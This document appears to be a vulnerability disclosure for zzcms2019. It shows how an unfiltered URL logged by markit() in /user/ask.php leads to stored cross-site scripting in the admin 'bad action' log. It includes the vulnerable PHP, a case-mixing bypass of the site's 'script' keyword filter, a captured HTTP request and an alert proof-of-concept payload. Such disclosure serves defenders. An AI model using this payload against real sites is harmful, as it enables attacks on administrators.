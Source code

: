 

# /user/ask.php

Edition: zzcms2019 /user/ask.php

# 0x01 Vulnerability

Get the `do` parameter with the `get` method

```php
<?php
$do=isset($_GET['do'])?$_GET['do']:'';
switch ($do) {
case "add":add();break;
case "modify":modify();break;
}
```

The `modify()`function

```php
function modify()
{
    global $username; ?>

<div class="admintitle">修改问答信息</div>
<?php
$page = isset($_GET['page'])?$_GET['page']:1;
    checkid($page);
    $id = isset($_GET['id'])?$_GET['id']:0;
    checkid($id, 1);

    $sqlzx="select * from zzcms_ask where id='$id'";
    $rszx =query($sqlzx);
    $rowzx = fetch_array($rszx);
    if ($id<>0 && $rowzx["editor"]<>$username) {
        markit();
        showmsg('非法操作！警告：你的操作已被记录！小心封你的用户及IP！');
    } ?>	  
```

Which called the vulnerable function `markit()`

This function in`/inc/function.php`

```php
//$_SERVER['HTTP_REFERER'];//上页来源
function markit()
{
    $userip = $_SERVER["REMOTE_ADDR"];
    //$userip=getip();
    $url = "http://" . $_SERVER['HTTP_HOST'] . $_SERVER['REQUEST_URI'];
    query("insert into zzcms_bad (username,ip,dose,sendtime)values('" . $_COOKIE["UserName"] . "','$userip','$url','" . date('Y-m-d H:i:s') . "')");
}
```

The `$url` is not filtered and inserted directly into the database, so we can register a user and access `http://www.zzcms2019.cc/user/ask.php?do=modify&page=1&id=1`, which will appear

![](https://i.imgur.com/5JxxULl.png)

At this point we can use Burpsuite to capture the package, modify the URI path of the package to `/user/ask.php?do=modify&page=1&id=1&aaa=<sCrIpT>alert(/xss/)</ScRiPt> `

Use `<sCrIpT>alert(/xss/)</ScRiPt>` because there is a detection function in `/inc/stopsqlin.php`

```php
<?php
//主要针对在任何文件后加?%3Cscript%3E，即使文件中没有参数
if (strpos($_SERVER['REQUEST_URI'],'script')!==false || strpos($_SERVER['REQUEST_URI'],'%26%2399%26%')!==false|| strpos($_SERVER['REQUEST_URI'],'%2F%3Cobject')!==false){
die ("无效参数");//注意这里不能用js提示
}
```

![](https://i.imgur.com/H67jYWx.png)

The complete package is as follows
![](https://i.imgur.com/Fqrmmzf.png)

```
GET /user/ask.php?do=modify&page=1&id=1&aaa=<sCrIpT>alert(/xss/)</ScRiPt> HTTP/1.1
Host: www.zzcms2019.cc
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: __tins__713776=%7B%22sid%22%3A%201551009070949%2C%20%22vd%22%3A%205%2C%20%22expires%22%3A%201551010962798%7D; __51cke__=; __51laig__=12; bdshare_firstime=1551002231060; PHPSESSID=8o9ms5t57q6dag7ofku75fn2j7; UserName=test; PassWord=e10adc3949ba59abbe56e057f20f883e
Connection: keep-alive
Upgrade-Insecure-Requests: 1
```

When the administrator accesses the **Users→User Bad Action Record** 

![](https://i.imgur.com/VMs1r1r.png)

He/She will be see a alert window which said **/xss/**

![](https://i.imgur.com/MtBdViP.png)

And the database is displayed as follows

![](https://i.imgur.com/Vt2YN9X.png)

Payload:`url/to/zzmcs/user/ask.php?do=modify&page=1&id=1&aaa=<sCrIpT>alert(/xss/)</ScRiPt>`



